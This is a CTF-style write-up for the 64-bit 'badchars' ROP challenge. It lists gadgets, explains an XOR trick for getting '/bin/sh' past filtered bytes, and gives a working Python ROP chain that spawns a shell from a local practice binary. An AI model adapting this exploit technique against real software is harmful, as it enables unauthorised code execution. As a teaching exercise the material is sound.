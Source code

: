 # badchars - 64 bit

we are progressing in the series and the challanges are becoming more interesting.  
     
this time we have to deal with badchars.
    
badchars are characters that will not appear in memory the way we expect them to     
and therefore will cause unexpected behaviour.    
     
for example: a null byte is the most common bad char as it will usually(not in this challange though) terminate strings. 
    
we are granted with a list of bad chars when we execute the binary. 
    
![begin](https://user-images.githubusercontent.com/60041914/78296351-3a98d600-7536-11ea-99f1-b680518e923f.png)
   
when checking out the gadgets we should look for ways to bypass this constraint.    
it's time to get creative.     
looking around I find these gadgets useful:  
```nasm
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b39 : pop rdi ; ret
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
```
   
you might understand what I'm getting at just by looking at them.    
my plan is to place a string in memory("/bin/sh")    
whose bad chars are xored with a key and then xor these same chars again.    

plan in detail:    
1.xor the bad chars in our string with a key     
2.use "pop r12 ; pop r13 ; ret" to set r12 to the string, r13 the desired address           
3.use "mov qword ptr [r13], r12 ; ret" to write the string to memory      
for each xored char:      
     4.use "pop r14 ; pop r15 ; ret" to set r14 to the key,r15 to the address of the char       
     5.use "xor byte ptr [r15], r14b ; ret" to xor them       
6.use "pop rdi ; ret" to point rdi to our decrypted string in memory      
7.call system    
8.profit????    
     
the rop chain looks like this:   
```python
bad_chars=['b', 'i', 'c', '/' ,' ','f','n','s']

CALL_SYSTEM=0x004006f0
STR_ADDR=0x00601100
SET_RDI=0x00400b39
SET_XOR_REGS = 0x00400b40
XOR_BYTES=0x00400b30
SET_REGS=0x00400b3b
WRITE_MEM=0x00400b34

xor_key=0x12

def write_str(s,addr,exp):
    #write 8 byte string with bad chars
    exp+=p64(SET_REGS)
    s=list(s)
    xored_s=[chr(ord(ch)^xor_key) if ch in bad_chars else ch for ch in s]
    exp+="".join(xored_s)
    exp+=p64(addr)
    exp+=p64(WRITE_MEM)
    for ch in s:
        if ch in bad_chars:
            exp+=p64(SET_XOR_REGS)
            exp+=chr(xor_key)+"\x00"*7
            exp+=p64(addr)
            exp+=p64(XOR_BYTES)
        addr+=1

    return exp

r=process("./badchars")
exploit=b'A'*40
exploit=write_str("/bin/sh\x00",STR_ADDR,exploit)
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR)
exploit+=p64(CALL_SYSTEM)
```
    
it works!     
![sof](https://user-images.githubusercontent.com/60041914/78296354-3bca0300-7536-11ea-987b-6d79073ae313.png)
